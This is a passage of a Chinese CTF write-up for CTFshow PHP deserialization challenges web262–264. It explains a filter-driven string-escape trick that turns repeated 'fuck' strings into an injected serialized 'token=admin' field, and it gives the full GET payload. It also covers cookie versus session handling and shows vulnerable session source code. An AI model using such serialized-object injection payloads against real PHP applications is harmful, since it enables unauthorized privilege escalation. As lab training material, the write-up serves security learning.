 因为fuck到loveU，多了一个字符，所以属于过滤后字符增多的情况

```php
";s:5:"token";s:5:"admin";},有27个字符，所以需要27个fuck
```

然后，我们可以直接GET传参或者base64编码后的结果放到cookie里面访问message.php，就可以拿到flag

### web264

这个题跟web262不同的地方是，$_COOKIE换成 \$\_SESSION

关于两者和$_REQUEST的区别

```php
在 PHP 中，cookie 就是服务器，它是留在客户端（浏览器）上的一个小的数据文件，通常用于标识用户信息，也称为浏览器缓存或 Cookies。
$_COOKIE[] 全局数组存储了通过 HTTP COOKIE 传递到脚本的信息，PHP 可通过 setcookie() 函数设置 COOKIE 的值，用 $_COOKIE[] 数组接收 COOKIE 的值，$_COOKIE[] 数组的索引为 COOKIE 的名称。

session 是一种客户与网站（服务器）更为安全的对话方式，一旦开启了 session 会话，便可以在网站的任何页面使用（保持）这个会话，从而让访问者与网站之间建立了一种“对话”机制。但是 session 不同于 cookie，必须先启动，才能生效。
$_SESSION[] 数组用于获取会话变量的相关信息。

$_REQUEST 支持 $_GET 和 $_POST 发送过来的请求，即 get 和 post 它都可以接受，浏览器地址栏中的数据显示不显示要看传递的方法，get 会显示在 url 中（有字符限制），post 不会显示在 url 中，可以传递任意多的数据（只要服务器支持）。
默认情况下，$_REQUEST[] 数组包含了 $_GET、$_POST 和 $_COOKIE 的数组。
```

web262是cookie，所以我们可以通过直接给f，m，t赋值，然后得到base64加密后的序列化内容，然后通过cookie直接传入message.php

web264是session，直接设置在会话变量中，所以我们不能通过cookie传入了，只能在GET传入参数。

payload

```php
f=1&m=1&t=1fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck%22;s:5:%22token%22;s:5:%22admin%22;}
```

同时还需要cookie传参，msg=1，访问message.php

###  web263

考点：php的session反序列化漏洞

首先扫描，发现备份文件泄露，访问www.zip得到源码，观察源码

index.php

```php
<?php
	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
?>

```
